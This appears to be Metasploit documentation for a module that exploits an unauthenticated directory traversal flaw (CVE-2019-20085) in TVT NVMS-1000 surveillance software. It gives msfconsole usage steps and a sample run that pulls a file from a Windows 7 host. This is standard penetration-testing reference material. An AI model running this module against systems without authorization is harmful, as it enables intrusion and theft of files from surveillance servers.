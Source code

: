 ## Description

This module exploits an unauthenticated directory traversal vulnerability which exists in TVT network surveillance management software-1000 version 3.4.1. NVMS listens by default on port 80.

### Vulnerable Application

* http://en.tvt.net.cn/upload/service/NVMS1000.zip

## Verification

1. `./msfconsole`
2. `use auxiliary/scanner/http/tvt_nvms_traversal`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested against Windows 7 SP1

```
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS 192.168.43.152
RHOSTS => 192.168.43.152
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] File saved in: /root/.msf4/loot/20191230124941_default_192.168.43.152_nvms.traversal_240600.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/tvt_nvms_traversal) >
```

## References

* https://www.exploit-db.com/exploits/47774
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20085

